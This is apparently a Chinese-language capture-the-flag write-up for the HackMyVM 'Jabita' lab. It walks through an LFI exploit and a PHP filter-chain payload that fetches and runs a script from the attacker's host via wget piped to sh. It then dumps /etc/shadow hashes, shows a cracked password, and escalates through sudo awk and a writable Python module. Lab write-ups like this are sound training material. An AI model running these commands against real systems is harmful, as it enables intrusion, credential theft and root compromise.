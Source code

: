 # Jabita

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Jabita

[video](https://www.bilibili.com/video/BV1jvQqYKEtD/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描发现 http://192.168.5.40/building/ , 点击顶部导航页面，发现 LFI http://192.168.5.40/building/index.php?page=home.php 可读取/etc/passwd 文件 http://192.168.5.40/building/index.php?page=/etc/passwd

使用 php_filter_chain ，将生成的 php filter 拼接到 page 参数后面直接拿到 shell:

```
python3 ~/tools/py-tools/php_filter_chain_generator.py --chain '<?=`wget -q -O- 3232236803/8|sh`?>'
```

进入系统后，发现/etc/shadow 可读：

```
www-data@jabita:/opt$ cat /etc/shadow
root:$y$j9T$avXO7BCR5/iCNmeaGmMSZ0$gD9m7w9/zzi1iC9XoaomnTHTp0vde7smQL1eYJ1V3u1:19240:0:99999:7:::
jack:$6$xyz$FU1GrBztUeX8krU/94RECrFbyaXNqU8VMUh3YThGCAGhlPqYCQryXBln3q2J2vggsYcTrvuDPTGsPJEpn/7U.0:19236:0:99999:7:::
jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7:::
```

john 进行破解。找到 jack 用户的密码 joaninha 切换到该用户。

sudo 发现 (jaba : jaba) NOPASSWD: /usr/bin/awk 可提权到 jaba：

```
sudo -u jaba awk 'BEGIN {system("/bin/bash")}'
```

先拿到 user flag：

```
jaba@jabita:~$ cat user.txt
2e0942f09699435811c1be613cbc7a39
```

sudo -l 显示 (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py , 查看 py 脚本的内容：

```
jaba@jabita:/usr/bin$ cat /usr/bin/clean.py
import wild

wild.first()
```

查看一下 wild 这个库的内容以及文件权限：

```
jaba@jabita:/usr/bin$ cat /usr/lib/python3.10/wild.py
def first():
	print("Hello")

jaba@jabita:/usr/bin$ ls -al /usr/lib/python3.10/wild.py
-rw-r--rw- 1 root root 29 Sep  5  2022 /usr/lib/python3.10/wild.py
```

发现是一个用户自定义的脚本，并且对其他用户有 w 写权限，直接修改它的内容：

```
echo 'import os; os.system("/bin/bash")' > /usr/lib/python3.10/wild.py
```

再次执行 sudo，拿到最终 flag：

```
jaba@jabita:/usr/bin$ sudo /usr/bin/python3 /usr/bin/clean.py
root@jabita:/usr/bin# cd /root
root@jabita:~# cat root.txt
f4bb4cce1d4ed06fc77ad84ccf70d3fe
```

